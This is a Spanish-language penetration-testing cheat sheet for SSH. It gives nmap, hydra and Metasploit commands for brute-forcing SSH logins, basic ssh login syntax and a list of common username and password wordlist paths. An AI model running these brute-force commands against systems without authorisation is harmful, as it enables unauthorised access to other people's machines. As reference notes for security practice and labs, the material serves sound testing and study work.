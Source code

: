```bash

# Aplicando fuerza bruta con nmap
nmap --script ssh-brute --script-args userdb=/wordlists_con_usuarios -p 22 <IP>
```

<br>

<h3 id="SSH2">Entrando al Servicio SSH</h3>

```bash
# Entrando al servicio SSH
ssh <usuario>@<IP>
Ej: ssh administrador@192.168.1.15


# Entrando al servicio SSH usando una llave privada
ssh -i <ruta de id_rsa> <usuarios>@<IP>
Ej: ssh -i ~/.ssh/id_rsa root@192.168.1.15


# Entrando al servicio SSH específicando el puerto
ssh -p <puerto> <usuarios>@<IP>
Ej: ssh -p 2222 root@192.168.1.15
```

<br>

<h3 id="SSH3">Aplicando Fuerza Bruta al SSH</h3>

```bash
# Aplicando fuerza bruta con hydra
hydra -L <lista_usuarios> -P <lista_contraseñas> <IP> ssh
Ej: hydra -l root -P /usr/share/wordlists/rockyou.txt <IP> ssh
Ej2: hydra -t 4 -l root -p /usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt ssh://IP


# Aplicando fuerza bruta con módulo de metasploit
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <IP>
set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
exploit


Wordlists:
*Usuarios: /usr/share/metasploit-framework/data/wordlists/common_users.txt
*Usuarios2: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
*Usuarios3: /usr/share/seclists/Usernames/top-usernames-shortlist.txt
*Usuarios4: /usr/share/metasploit-framework/data/wordlists/unix_users.txt
*Contraseñas: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
*Contraseñas2: /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt
*Contraseñas3: /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
*Contraseñas4: /usr/share/seclists/Passwords/seasons.txt
*Contraseñas5: /usr/share/seclists/Passwords/months.txt
*Contraseñas6: /usr/share/seclists/Passwords/common_corporate_passwords.lst
*Contraseñas nuclear: /usr/share/wordlists/rockyou.txt
```
